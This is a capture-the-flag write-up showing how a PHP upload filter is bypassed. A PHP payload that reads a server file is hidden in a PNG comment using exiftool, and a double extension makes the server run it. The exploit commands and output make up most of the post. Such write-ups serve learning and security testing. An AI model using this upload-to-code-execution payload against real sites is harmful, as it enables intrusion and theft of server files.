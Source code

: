 ```yaml
---
layout: post
title: "FlashCTF - Just My Kind Of Type"
date: 2022-09-15
categories: CTF
permalink: /FlashCTF
---
```


If it passed the tests, it's good, right? Thankfully, QA wrote some basic security requirements this time, so the developers had to go back and add some protections around file uploads.

The AppSec team doesn't think this new app is as secure as it should be. Can you check it out? You can access the website here.

The flag is located at /flag.txt on the file system.

XXX

So, based upon the challenge desciption, we know this challenge is going to involve uploading a file, and the only place to do so on the website is via the profile editor. We can choose to upload a new profile image. We can see the website is running php based on the url (http://host1.metaproblems.com:4800/edit_profile.php), so my first thought is to just attempt to upload a simple php script to display the file flag.txt. I put the following into a file named flag.php and attempt to upload it:
```
<?php
echo file_get_contents("/flag.txt");
?>
```

Of course, this fails with the error "Oh snap! Upload failed! Error: Only PNG files are allowed!". Next we'll try a simple filename bypass by renaming the file to flag.php.png, but this fails with the error "Oh snap! Upload failed! Error: Only PNG files with a valid size are allowed!". I found a png file on my harddrive from a previous CTF, and attempted to insert the php code after the headers and re-upload, and this time I got a more interesting error.

"Warning: getimagesize(): PNG file corrupted by ASCII conversion in /var/www/html/edit_profile.php on line 23"

Now we know that the website is using the php function getimagesize() to verify the file type. I did some searching for getimagesize() bypasses, and found that you can inject php code into the comment of a png file and then get the website to execute it. We can do this using exiftool.

```$ exiftool -Comment='<?php echo file_get_contents("/flag.txt"); ?>' flag.png

$ exiftool flag.png
ExifTool Version Number         : 12.40
File Name                       : flag.png
Directory                       : .
File Size                       : 65 KiB
File Modification Date/Time     : 2022:09:10 00:08:02-04:00
File Access Date/Time           : 2022:09:10 00:08:02-04:00
File Inode Change Date/Time     : 2022:09:10 00:08:02-04:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1127
Image Height                    : 350
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Gamma                           : 2.2
Pixels Per Unit X               : 5669
Pixels Per Unit Y               : 5669
Pixel Units                     : meters
Comment                         : <?php echo file_get_contents("/flag.txt"); ?>
Image Size                      : 1127x350
Megapixels                      : 0.394
```
We rename our file to flag.php.png and upload. This time, instead of being greeted with an error, we are greeted with "Awesome! You just uploaded a new profile picture :)". Now we can browse back over to "View Your Profile" and see that no image is displayed. Using the Inspect function in our browser, we can see that the profile image is now pointing to uploads/profile_images/uUhk3yfmoO/flag.php.png. We can go directly to this file and be greeted with our flag hidden inside of the PNG data!
```
...Ys%%IR$�5tEXtCommentMetaCTF{your_php_enabled_image/png_is_the_content_to_my_type} �(O��IDATx^�...
```

